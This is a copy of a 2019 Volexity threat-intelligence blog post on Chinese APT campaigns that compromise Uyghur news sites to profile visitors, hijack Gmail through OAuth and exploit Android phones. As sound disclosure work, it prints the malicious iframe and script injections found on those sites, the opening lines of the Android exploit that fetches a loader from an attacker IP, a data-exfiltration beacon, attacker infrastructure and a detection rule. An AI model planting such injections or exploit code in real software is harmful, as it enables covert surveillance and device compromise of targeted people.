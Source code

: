 # Reference for threat actor for "Poison Carp, Evil Eye"

**Title**: Digital Crackdown: Large-Scale Surveillance and Exploitation of Uyghurs | Volexity

**Source**: https://www.volexity.com/blog/2019/09/02/digital-crackdown-large-scale-surveillance-and-exploitation-of-uyghurs/

## Content





  

Digital Crackdown: Large-Scale Surveillance and Exploitation of Uyghurs | Volexity


























































Request A Demo
 Breach Assistance
 





Products

Products Overview
Volcano
Surge


Services

Services Overview
Incident Response
Network Security Monitoring
Proactive Threat Assessments
Threat Intelligence
M&A Cybersecurity Assessments


Company

About
News & Press
Careers
Internships
Resources


Blog
Contact
 









            blog        







Digital Crackdown: Large-Scale Surveillance and Exploitation of Uyghurs
September 2, 2019
by Andrew Case, Matthew Meltzer, Steven Adair

Facebook
Twitter
Email


Over the last several years, numerous reports have emerged regarding the shocking treatment of Uyghurs, a Muslim minority ethnic group that makes up a large part of the Xinjiang Uyghur Autonomous Region (XUAR) in northwest China. The Uyghur people, especially those that want the XUAR to become its own nation under the name East Turkistan, are considered to be a threat to the Chinese Communist Party (CCP). Recent reporting has shown that this point of view by the CCP against the Uyghur people has resulted in wide-scale harassment, relocation to detention camps, and oppressive high-tech surveillance aimed at tracking physical movements and behavior. With all of these reports on physical real-world issues, it should come as no surprise that cyberspace has become a battle ground for the Uyghur people. The level of surveillance occurring in China against Uyghurs extends well beyond their borders and has fully entered the digital realm. In this blog, Volexity plans to shed some light on the barrage of cyber attacks that have been unleashed upon Uyghurs.
Since its formation in 2013, Volexity has worked closely with various non-governmental organizations (NGOs), activists, dissidents, human rights defenders, and other highly targeted groups that are often at a severe disadvantage with respect to the threat actors that are targeting them. Volexity's goal is to always level the playing field as much as possible through awareness and by collaboratively building more defensible and resilient networks and systems. Over the years, Volexity has gained amazing insight into what could be considered to be some of the most advanced and scariest cyber attacks imaginable.  Volexity has worked closely with various Uyghur individuals and organizations and has witnessed an unrelenting series of attacks that started well before 2013 and continue to this day. In the last few years, Volexity has observed an increase in the number of compromised Uyghur and East Turkistan websites. These websites have been leveraged to track and launch attacks against the Uyghur diaspora around the world. This report details the wide variety of websites that have been used for surveillance and attacks and specifically looks into a very recent campaign targeting mobile devices.
Key highlights from these most recent series of attacks against the Uyghur diaspora include:

A wide-ranging series of digital surveillance and exploitation campaigns identified via multiple strategically compromised websites
Mobile device users running Android OS targeted via an exploit that will deliver a 64-bit ARM executable
Website visitors tracked and targeted via Scanbox profiling and exploitation framework
Attacker's arsenal includes Google Applications for gaining access to e-mails and contact lists of Gmail accounts via OAuth
Doppelganger domains emulating Google, the Turkistan Times, and the Uyghur Academy leveraged by attackers
At least two separate Chinese APT groups responsible for ongoing campaigns against Uyghurs

As part of these ongoing attacks, Volexity has identified at least 11 Uyghur and East Turkistan related websites that have been compromised and leveraged for surveillance and exploitation. While this number is definitely less than that observed by Volexity as part of a mass digital surveillance campaign by OceanLotus a few years ago, these websites do make up a significant number of the total websites that provide Uyghur and East Turkistan news and resources. Volexity believes that the attacks described in the post are designed to target Uyghurs at large, of which the majority will be members of the Uyghur diaspora. The systematic targeting and compromise websites that are run by and cater to Uyghurs make it clear they are the primary targets. However, each of the compromised websites are banned by the great firewall in China, leaving largely only those outside of the country as targets and potential victims.
Compromised Sites
Volexity has been able to identify at least 11 different Uyghur and East Turkistan websites that have been strategically compromised and leveraged as part of a series of attack campaigns. In some cases, the websites have been continuously leveraged to attack visitors going back at least four years. While it is not always possible to tie some observed activity to a specific threat group, Volexity believes that at least two Chinese APT groups are responsible for the majority of the attack activity described in this blog.



Organization
Website
Compromised Page


Uyghur Academy
www.akademiye.org
Main Index
/ug/wp-content/themes/goodnews/js/custom.js?ver=1.0/ug/wp-content/themes/goodnews/js/Jplayer.html (iFrame)


Turkistantimes
turkistantimes.com
Directly on select pages such as:
/en/news-10597.html
/m/news-10500.html


Uighur Times (English)
uighurtimes.com
Main Index


Uighur Times (Chinese)
weiwuer.com
Main Index


Uighur Times (Uyghur)
iuyghur.com
Main Index


Istiqlal Haber
istiqlalhaber.com
/js/jquery.easing.1.3.js


Turkistan Press
turkistanpress.com
/js/jquery.easing.1.3.js


Turkistan TV
turkistantv.com
/js/lightbox/css/lightbox.html (iFrame)


East Turkistan Education and Solidarity
Association (ETESA)
maarip.org
Main index pages for English and Uyghur versions of the website


World Uyghurs Writers Union
wetinim.com
Main Index


Istiqlal TV
istiqlal.net
Main index



 
Unauthorized Code
The websites listed above all contained one or more instances of malicious code on them. The code was often updated over time and some websites even housed multiple different instances of malicious code at the same time. The majority of the websites that were linked to by the malicious code were unavailable when Volexity examined them or returned 0-byte responses. The latter indicating that whitelisting may be employed or that the attack operation was otherwise on pause or being leveraged to simply track visitors.  The primary instances where code was returned involved the deployment of Scanbox by one actor and exploit code targeting Android users by another.
Evil Eye
In many cases where the malicious websites were in operation but Volexity did not observe an active payload, the URLs followed a somewhat distinctive pattern. In almost all instances, the URLs from these sites were loaded via an iFrame. Below is a list of the observed URL patterns, as extracted from the iFrame tags.

http://103.43.18.243:5634/WU95IhiPIMsg.html
http://182.61.171.167:9321/8fmtCI2j2Xk0.html
http://182.61.173.209:8372/uxwrR64eZz0Y.html
http://45.76.209.90:8352/reA4iy3gl2.html
https://www.google-analysis.info/UxiZIwIcsta2.html
https://www.google-analysis.info/NsyXHDkBR2yK.html
https://turkistantlmes.com/aNQBEaMX2Bc4.html
https://turkistantlmes.com/7GbMYn8ldTRK.html
https://akademlye.org/t5UPArzQAjd2.html

These URLs are typically loaded in plaintext without any sort of obfuscation. However, in two instances, one of the earlier instances identified on the Uyghur Academy website, and one on the website of the World Uyghurs Writers Union, obfuscation was applied by way of multiple iFrames, and with the URL itself being obfuscated. An example of the obfuscated code as found on the World Uyghurs Writers Union site is shown below.
<iframe src="&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x31;&#x30;&#x33;&#x2e;&#x34;&#x33;&#x2e;&#x31;&#x38;&#x2e;&#x32;&#x34;&#x33;&#x3a;&#x35;&#x36;&#x33;&#x34;&#x2f;&#x57;&#x55;&#x39;&#x35;&#x49;&#x68;&#x69;&#x50;&#x49;&#x4d;&#x73;&#x67;&#x2e;&#x68;&#x74;&#x6d;&#x6c;" width=0 height=0></iframe>
Once converted, the above iFrame will attempt to load content from http://103.43.18.243:5634/WU95IhiPIMsg.html.
Volexity has also observed similar URL patterns and even doppelganger domains leveraged to target Tibetan interests as well. Volexity believes there is likely overlap between these two sets of activity.  Volexity currently tracks the above listed activity as a group under the moniker Evil Eye. The Evil Eye threat actor is also responsible for targeting users with Android exploits and malware, which is detailed below within this report.
Scanbox
Another notable instance of code found on these compromised websites includes the aforementioned Scanbox instance that was seen in istiqlal.net. The following code was observed on the site for a period of time in mid-April 2019.
<script src="https://stats.uyghurmedia[.]top:443/i/?3"></script>
The script would load the Scanbox framework, collecting data on the system and transmitting it via HTTP POST request to stats.uyghurmedia[.]top:443/i/recv.php.
In this instance, the attackers leveraged both a domain they created in an effort to blend in as legitimate and TLS to evade network detection. This domain also has ties to an operation designed to target Google OAuth access to Gmail accounts as described further in this report. This is not the first time Volexity has observed Scanbox leveraged in attacks against the Uyghur community. In 2016, Volexity had identified a similar Scanbox instance on the Uyghur Academy website.
IP in Decimal Notation
One of the more interesting versions of unauthorized code that Volexity observed was on the website of the World Uyghurs Writers Union. The following code was observed on the website:
<script type="text/javascript"> !function(a,b){a=document.createElement("script"),b=document.getElementsByTagName("script")[0], a.async=!0,a.src="//760037399/2",b.parentNode.insertBefore(a,b)}()
In this case, the value "760037399" converts to the Choopa IP address 45.77.64.23 and a request is made to the URL http://45.77.64.23/2. Volexity believes this code has primarily been leveraged for tracking, as it will ultimately report back a few pieces of information to the site to include its referer and possibly even cookies. Volexity has previously observed this same IP decimal notation and tracking code on other sites in the past.
Android Mobile Users Targeted
In mid-August, Volexity identified new malicious code on the websites of the Uyghur Academy, Turkistan Press, Turkistan TV, and Istiqlal Haber. The websites contained a few different methods of loading the following code:
<iframe src="https://akademlye[.]org/ztTXvf" width 0 height 0 visibility hidden></iframe>
This malicious domain that was designed to appear like the legitimate website of the Uyghur Academy. However, in this instance the "i" has been replaced with a lowercase "L." This follows a similar theme to that was seen via the "turkistantlmes[.]com" website leveraged by the attackers. The code on this website appears to target the Chrome browser of the Android operating system.
The initial code of the exploit contained the following, which was actually fairly well documented through comments:
<html>
<script>
var IP_A12A3079E14CED46E69BA52B8A90B21A = "149.28.207.244";
var IP_HEX_06236F18F5EA830A8DBB2AA5E5AC4E00 = "0xf4cf1c95";  // 4c08a8c0
var PORT_463C00141B4C3A7F76ACD3540052F8F5 = 8080;
var APP_PATH_D892A52BCC30FA6168C260B8695D24F7 = "/data/data/com.android.browser/loader";
var portshell=parseInt((PORT_463C00141B4C3A7F76ACD3540052F8F5/256+(PORT_463C00141B4C3A7F76ACD3540052F8F5%256)*256))*256*256+2;
var s="GET /dev/loader HTTP/1.0\r\nHost: "+ IP_A12A3079E14CED46E69BA52B8A90B21A+":"+PORT_463C00141B4C3A7F76ACD3540052F8F5.toString()+"\r\nConnection: close\r\n\r\n";
The exploit itself is 22,963 bytes of code and if successful will ultimately result in the forced download of a file name loader to the /data/data/com.android.browser directory of the victim device. This aforementioned file is downloaded via the URL 149.28[.]207.244:8080/dev/loader. The file loader is a 64-bit ARM executable that exfiltrates a significant amount of data about the device back to attacker controlled IP via an HTTP POST request to 149.28.207.244 over TCP port 1998. The connection will use a hard-coded user agent of Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101Firefox/65.0 for the request and will also notably send an Accept-Language of "zh-CN" (Chinese).
The information exfiltrated about the device includes the following:

Unique ID
Model
Brand
Manufacturer
Locale
IMEI
SIM state
IMSI
ICCID
Phone number
Roaming status
Baseband version
Current network type
Current network name
Operator code
Battery level
Whether the phone is rooted
ROM version
Android version
Android API level
Android patch version
Android ID
Kernel version
MAC address
Public and private IP addresses
Total and free space on SD card
Total and free RAM
Device fingerprint
Serial number
Screen resolution
CPU
Uptime
Username

The malware binary also makes use of a unique website to check its IP address by making a GET request to  the domain getip[.]name (150.109.120.186). This website was registered in February 2019 and does not appear to have a web presence. The site has been down on all occasions that Volexity has checked it. Additionally, there do not appear to be any other known hostnames that resolve to the websites IP address. Volexity believes it is possible that this domain is controlled by the attackers.
Information about the status of exfiltration requests and other diagnostic information is attempted to be logged to a file named loader.log in the /data/data/com.android.browser directory on the device. While this file serves as a useful indicator of the presence of the malware, we note that the loader executable will continue functioning even if it cannot write to its log file. A sample of what a beacon packet looks like is included below.
POST /link/detail HTTP/1.1
Host: 149.28.207.244
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: */*
Accept-Language: zh-CN
Cache-Control: no-cache
Connection: close
Content-length: 976
 
{"device_id":"0f637264fc6318a92b9e13c65dc1cd2c","model":"Android SDK built for arm64","brand":"Android","manufacturer":"unknown","locale":"en-US","imei":"358240051111123","sim_state":"READY","imsi":"310260000001809","iccid":"89014103211138560721","phone_no":"+15555215554","is_roaming":"false","baseband_version":"","network_type":"LTE","network_name":"Android","operator":"310260","battery_level":"100","is_root":"","rom_version":"5464646","android_version":"7.0","android_api_level":"24","android_patch_version":"2018-11-05","android_id":"d0a79d8f32e69c86","kernel_version":"3.10.0+","mac_address":"02:03:04:05:60:07","ip_public":"","ip_private":"","sdcard_total":"793488","sdcard_free":"688340","memory_total":"1534300","memory_free":"79676","fingerprint":"Android/sdk_google_phone_arm64/generic_arm64:7.0/NYC/5464646:userdebug/dev-keys","serial_no":"PD2C1PR328X0X23X0","resolution":"1440*2560","cpu_info":" AArch64 Processor rev 0 (aarch64)","uptime":"1643","user":"root"}
 
The sample analyzed by Volexity does not appear to have any means of persisting on the system that it's running on, nor does it appear to accept further commands. Volexity suspects that this may indicate that attackers may look to conduct future exploitation of  devices of interest or are otherwise looking  to use this data to verify information obtained from the output of physical cellular device tracking.
Volexity has identified similarities to but has not yet verified that the exploit being employed in this attack is the Chrome Turbofan remote code execution vulnerability that was reported via the SecuriTeam Secure Disclosure program and is covered in an advisory here.
Targeting Gmail Access via Google OAuth
An increasingly common tactic that Volexity sees from various APT groups, especially those aimed at targeted populations, including dissidents and individuals involved with human rights, is to gain long-term access to their personal e-mail accounts. One such way is to develop an application and fool a targeted user into authorizing it to have access to their e-mail account. This will typically bypass two-factor authentication (2FA) and provide the attacker resilience against user password changes. Volexity previously describe this type of attack and steps to mitigate as part of a blog related to OceanLotus here. While investigating the domain name uyghurmedia[.]top, that was described above as targeting Uyghurs through Scanbox, Volexity found it was also being leveraged to target Gmail accounts via the hostname emailgroup.uyghurmedia.top.

Accessing this hostname will result in a redirect to a Google application setup to gain unauthorized access to the Gmail accounts of Uyghurs.  The application will warn you about what is about to happen, describe the permissions the application would have over the account, and then make you confirm this is what you actually want to do as shown in the image below.

A closer look at the developer information of the application also gives insight into the account used to create and manage the application as seen below.

The attackers leveraged the e-mail address [email protected] as part of this campaign. Any e-mail from this account should be considered highly suspect and likely malicious. If access is granted, an e-mail should be sent and a new event should show up under Google's Security Checkup. The application in this instance will show up as the "Uyghur Media Email Group" as seen below.

Furthermore, an access to the account is made nearly immediately from the Choopa IP address 45.32.190.160. Note: is the same IP address to which the above hostname resolves .

Any access from this IP address should be considered suspect and likely malicious.
Possible Ties to Apple iPhone Attacks
Less than a week ago Google's Project Zero posted a detailed analysis of a series of iPhone exploits and related malware that had been identified by their Threat Analysis Group earlier in the year. This post does not give any specific details into where the exploits were observed but it does seem to hint that it may have been via Uyghur-related websites. A short time later, TechCrunch ran an article confirming that Uyghurs were the targets and references a post by Forbes providing additional details regarding the targeting of Android and Windows. While Volexity can only confirm malware targeted Android users through Uyghurs websites, it is reasonable to suspect that these same attack campaigns could have easily been leveraged to target Apple and Microsoft users. Furthermore, Volexity has a couple of additional observations of note:

Shortly after Google's Project Zero blog, the three DNS names leveraged by Evil Eye (akademyle.org, turkistantlmes.com, and google-analysis.info) stopped resolving
Around the same time or shortly before this blog, a number of the websites Volexity lists as compromised above started showing Google Safebrowsing warnings in Google search results
The majority of the malicious scripts referenced on the compromised websites were removed in this same timeframe

Finally, Volexity also observed one notable bit of code that was short-lived on the Uyghur Academy website that may indicate a possible interest in targeting iPhone users. The following code was observed in October 2018:
<iframe src="http://app.msap[.]services/appsstore" style="
width: 0px;
height:0px;
border:none;
padding:0;
"></iframe>
While this is not a smoking gun, it is interesting to note the use of "appsstore" as part of the URL. Volexity also notes that it has seen the msap.services domain leveraged to target Tibetan individuals as well.
Attacker Infrastructure



Hostname
IPv4 Address
Notes



www.google-analysis[.]info

182.61.106.160


Attacker controlled domain found on multiple Uyghur and East Turkistan websites.



turkistantlmes[.]com
182.61.189.138
Attacker controlled domain found on multiple Uyghur and East Turkistan websites.


akademlye[.]org
149.28.207.244
Attacker controlled domain leveraged to deliver Android exploit and malware. The IP for this domain is also used for direct communication from the Evil Eye Android loader.


ajax.cloudflarestatic.tk
N/A
Malicious domain found on the compromised ETESA site maarip.org; currently does not resolve to an IP address


app.msap.services
144.202.59.23
Malicious domain previously observed on the compromised Uyghur Academy website akademiye.org.


arkinixik.ezua.com
149.248.57.231
Hostname observed in a malicious URL found on the compromised East Turkistan news website istiqlalhaber.com. This hostname is also tied to a series of other hostnames and domains used to target Uyghurs going back over five years.


stats.uyghurmedia.top
139.180.223.184
Hostname observed hosting Scanbox via istiqlal.net in April 2019.


getip.name
150.109.120.186
Domain used by Android malware to identify its public IP address.


emailgroup.uyghurmedia.top
45.32.190.160
Hostname found to be leveraged to trick users into giving OAuth access to their Gmail accounts.


d.scanvpn.com
142.4.50.213
The IP address was observed in a malicious URL found on the compromised ETESA site maarip.org. The hostname d.scanvpn.com also resolves to this IP address. This is believed to be quite old.


N/A
182.61.184.33
Previous IP address resolution for turkistantlmes.com


N/A
182.61.171.167
IP address observed in a malicious URL found on the compromised website istiqlalhaber.com


N/A
182.61.173.209
IP address observed in a malicious URL found on the compromised website akademiye.org.


N/A
182.61.176.128
Previous IP address resolution for turkistantlmes.com


N/A
45.76.209.90
IP address observed in a malicious URL found on the compromised website akademiye.org.


N/A
45.77.64.23
IP address observed in a malicious URL found on the compromised site wetinim.com.



Network Signature
In addition to the domains and IP addresses, the following network signature can be used to detect the Evil Eye Android Malware.
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"Volex -  Evil Eye Android Malware Beacon"; flow:to_server,established; content:"POST"; http_method; content:"Mozilla/5.0 (Windows NT 10.0|3b| Win64|3b| x64|3b| rv:65.0) Gecko/20100101 Firefox/65.0"; http_user_agent; content:"Accept-Language: zh-CN"; http_header; content:"device_id"; http_client_body; depth:15; sid:2019090101;)
Conclusion
The Uyghur population is and will continue to be a major target for Chinese APT groups. While Uyghurs living within China are already subject to numerous forms of physical and electronic surveillance, it reasonable to expect they have also been targeted for digital surveillance. However, as the sites listed in this post are actually blocked in China,  it can be seen that the Uyghur diaspora around the world are also primary targets of these digital surveillance operations. These operations can be used to track the movements of Uyghurs outside of China and spy on those they are communicating with. Volexity believes that China has continued to increase the level of effort and sophistication they have put into targeting Uyghurs. As a result, it is critically important that Uyghurs take into consideration when using their computers and mobile devices that they may have been targeted and compromised, especially if the websites listed above are frequented.








Search for:





Recent Posts


CharmingCypress: Innovating Persistence


How Memory Forensics Revealed Exploitation of Ivanti Connect Secure VPN Zero-Day Vulnerabilities


Ivanti Connect Secure VPN Exploitation: New Observations


Ivanti Connect Secure VPN Exploitation Goes Global


Active Exploitation of Two Zero-Day Vulnerabilities in Ivanti Connect Secure VPN


Archives

February 2024
January 2024
September 2023
June 2023
March 2023
December 2022
August 2022
July 2022
June 2022
March 2022
February 2022
December 2021
August 2021
May 2021
March 2021
December 2020
November 2020
April 2020
March 2020
September 2019
November 2018
September 2018
August 2018
July 2018
June 2018
April 2018
November 2017
July 2017
March 2017
November 2016
October 2015
July 2015
June 2015
April 2015
October 2014
September 2014

Tags
vulnerabilities webshell exploits APT Exploit RCE osx crimeware pulsesecure ivanti connect secure Scanning China spear phishing 0day Threat Intelligence VPN malware memory forensics phishing North Korea 
 
 
 




© 2024 Volexity. All Rights Reserved.

About

About Us
Blog
Privacy Policy


Solutions

Request A Demo
Products
Services




Contact

11654 Plaza America Dr #774Reston, VA 20190-4700
1-888-825-1975



Connect













This Website uses cookies, which are necessary to its functioning and required to achieve the purposes illustrated in our Cookie Policy. By clicking the button, you consent to our use of cookies.Agree & Close



